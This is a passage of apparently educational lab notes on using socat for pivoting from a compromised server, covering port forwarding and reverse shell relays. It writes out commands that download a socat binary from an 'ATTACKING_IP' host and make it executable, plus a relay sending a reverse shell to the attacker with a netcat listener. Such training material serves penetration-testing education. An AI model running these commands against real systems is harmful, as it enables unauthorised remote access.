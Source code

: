 ![image](https://user-images.githubusercontent.com/89842187/131924768-8d0a02b6-8d11-45e8-be45-6ae4341ec1c2.png)

It's best to think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

## For example, with a Python webserver


On Kali (inside the directory containing your Socat binary):
```
sudo python3 -m http.server 80
```
Then, on the target:

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

```
![image](https://user-images.githubusercontent.com/89842187/131924833-42667342-a3e2-4cf0-9e8d-3de98b7f2e31.png)

With the binary uploaded, let's have a look at each of the above scenarios in turn.

Note: This uploads the socat binary with your username in the title; however, the example commands given in the rest of this task will refer to the binary simply as socat.

## Reverse Shell Relay


In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). First let's start a standard netcat listener on our attacking box (sudo nc -lvnp 443). Next, on the compromised server, use the following command to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

